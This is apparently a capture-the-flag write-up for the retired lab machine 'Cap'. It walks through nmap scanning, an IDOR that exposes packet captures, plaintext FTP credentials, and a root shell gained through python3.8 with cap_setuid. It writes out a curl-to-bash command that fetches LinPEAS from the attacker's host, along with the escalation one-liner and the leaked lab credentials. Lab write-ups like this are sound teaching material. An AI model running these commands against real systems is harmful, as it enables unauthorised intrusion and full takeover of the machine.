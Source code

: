 # Box
Name: Cap
ID: 6 
Difficulty: Easy 
Status: Retired

## 🧠 Attacker Environment
- **Host OS**: Parrot Security OS (VM)

## 🛠️ Tools Used
  - `ping`
  - `nmap`
  - `wireshark`
  - `linPEAS`

## 🎯 Target Environment
- **Ip Address**: 10.10.10.245
- **OS**: Debian GNU/Linux

## 🧠 Recon
Host is blocking pings, returned ports are filtered in first nmap scan:
```bash
nmap 10.10.10.245 
```

## 🔍 Enumeration
1. Ran full port scan which returned 3 open ports: 21,22,80:
```bash
ports=$(nmap -p- --min-rate=1000 -Pn -T4 10.10.10.245 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')
```
2. Investigated found open ports with third nmap scan: 
```bash
nmap -p$ports -Pn -sC -sV 10.10.10.245
```
3. Found the following open ports running services:
```bash
21/tcp ftp
22/tcp ssh
80/tcp http
```

4. Tried to connect via FTP with both anonymous andd default credentials - failed.

5. Opened 10.10.10.245:80 in browser, found **Security Dashboard**:
    - IP Config page
   - Network Status page
   - Option to download a **packet capture** ("Security Snapshot")

6. Downloaded and opened the `1.pcap` in Wireshark — only contained my own traffic.

7. Found an **IDOR vulnerability** by modifying the download URL and downloading `0.pcap` :
```http
http://10.10.10.245/data/0
```
   - This revealed previous user activity.

## 💥 Foothold
Opening the ID 0 capture file in Wireshark revealed **unencrypted FTP traffic**, including credentials:

- **Username**: `nathan`
- **Password**: `Buck3tH4TF0RM3!`

1. Found credentials allowed access via FTP **and** SSH
```bash
ssh nathan@10.10.10.245
```
```bash
ftp 10.10.10.245
```
## 🔐 Privilege Escalation
1. Hosted LinPEAS on attacker box:
```bash
sudo python3 -m http.server 80
```

2. On the target box, fetched and ran LinPEAS:
```bash
curl http://10.10.14.7/linpeas.sh | bash
```

3. **LinPEAS Discovery: Binary Capabilities**
```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

This means: 
-python3.8 can set UID to 0 (root) without being SUID
-Very powerful escalation vector

4. Escalation with Python
Ran the following to spawn a root shell:
```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
whoami
# root
```

5. Retrieved the flags: 
cat /home/nathan/user.txt
cat /root/root.txt

## 🧼 Cleanup & Lessons
-Removed linpeas.sh
-Logged out of all sessions
- **Key takeaways**:
-The developer may have granted Python this capability to allow a backend process (like the Security Dashboard or packet capture service) to run as root without using a setuid binary — but this introduces a critical security risk.
-cap_setuid allows privilege escalation without the SUID bit
-LinPEAS is excellent at spotting obscure privilege vectors
-IDOR vulnerabilities can leak sensitive network data
-Never trust plaintext protocols like FTP — always inspect pcap files closely
